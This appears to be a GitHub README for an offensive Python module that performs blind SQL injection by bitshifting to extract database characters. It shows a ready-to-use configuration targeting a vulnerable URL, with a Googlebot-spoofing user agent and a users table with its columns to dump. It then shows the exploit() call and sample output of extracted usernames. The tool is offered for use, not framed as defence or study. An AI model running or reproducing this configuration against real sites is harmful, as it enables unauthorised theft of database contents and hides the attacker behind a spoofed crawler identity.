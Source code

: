 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** characters instead of guessing them. It requires 7/8 requests per character, depending on the configuration.

## Usage

```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration:

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (optional)
x.options["row_condition"] = ""

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "users"

# Specify columns to dump
x.options["columns"] = "id, username"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='success'>true</p>"

# See below
x.options["assume_only_ascii"] = 1
```

The `assume_only_ascii` option makes the module assume that the characters it's dumping are all ASCII. Since the ASCII charset only goes up to `127`, we can set the first bit to `0` and not worry about calculating it. That's a `12.5%` reduction in requests. Testing locally, this yeilded an average speed increase of `15%`. Of course this can cause issues when dumping chars that are outside of the ASCII range. By default, it's set to `0`.

Once configured, call the `exploit()` function:

`x.exploit()`

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'eclipse'], ['2', 'dotcppfile'], ['3', 'Acey'], ['4', 'Wardy'], ['5', 'idek']]`

Optionally, your scripts can then harness the [tabulate](https://pypi.python.org/pypi/tabulate) module to output the data:

```
from tabulate import tabulate

data = x.exploit()

print tabulate(data,
               headers='firstrow',  # This specifies to use the first row as the column headers.
               tablefmt='psql')     # Using the SQL output format. Other formats can be used.
```

This would output:

```
+------+------------+
|   id | username   |
|------+------------|
|    1 | eclipse    |
|    2 | dotcppfile |
|    3 | Acey       |
|    4 | Wardy      |
|    5 | idek       |
+------+------------+
```
